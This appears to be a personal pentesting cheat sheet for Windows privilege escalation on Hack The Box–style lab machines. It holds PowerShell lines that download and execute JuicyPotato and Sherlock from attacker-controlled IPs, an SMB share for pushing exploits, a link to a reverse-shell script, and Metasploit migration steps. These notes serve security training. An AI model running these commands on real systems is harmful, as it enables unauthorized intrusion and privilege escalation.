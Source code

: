 
# Windows Shell Commands
- if you're like me, you mostly use windows for development so you may need help when cmds like "whoami" don't work
- great guides with more in depth knowledge
- help escalating: https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
- powershell "IEX(New-Object Net.WebClient).downloadFile('http://10.10.14.25:5555/JuicyPotato.exe', 'C:\Users\merlin\JuicyPotato.exe')" -bypass executionpolicy
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
- IEX(New-Object Net.Webclient).downloadString('http://10.10.16.3:5555/sherlock.ps1')

## Simple tricks
  - use the below if commands aren't working.  Basically, the process you're currently running has certain restrictions and you want to switch to a more stable one
  - ps
    - migrate [pid]
  - use the metasploit exploit suggester
    - search local_exploit_suggester
  - weird changing of permissions: https://ranakhalil101.medium.com/hack-the-box-chatterbox-writeup-w-o-metasploit-c8421ac09318
  - systeminfo
  - whoami /priv
    - SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
      - then juicy potato exploit: https://github.com/ohpe/juicy-potato/releases

Compiling windows .c files on kali  
    - i686-w64-mingw32-gcc exploit.c -o exploit -lws2_32
    - apt-get install gcc-mingw-w64-i686

## upload stuff to windows
  - sudo impacket-smbserver kali .
  - copy \\10.10.16.3\kali\JuicyPotato.exe

## binaries
  - you can always upload binaries to execute commands you need, but the machine doesn't have
  - list of binaries below:
    - /usr/share/windows-binaries/whoami.exe

## Searching for things
- this includes searching for programs and files (maybe ones you uploaded)

  ### Finding folders
    - dir /s *your file name*

## Windows XP Specific
  - To figure out if you're admin
    - reg query "HKU\S-1-5-19"
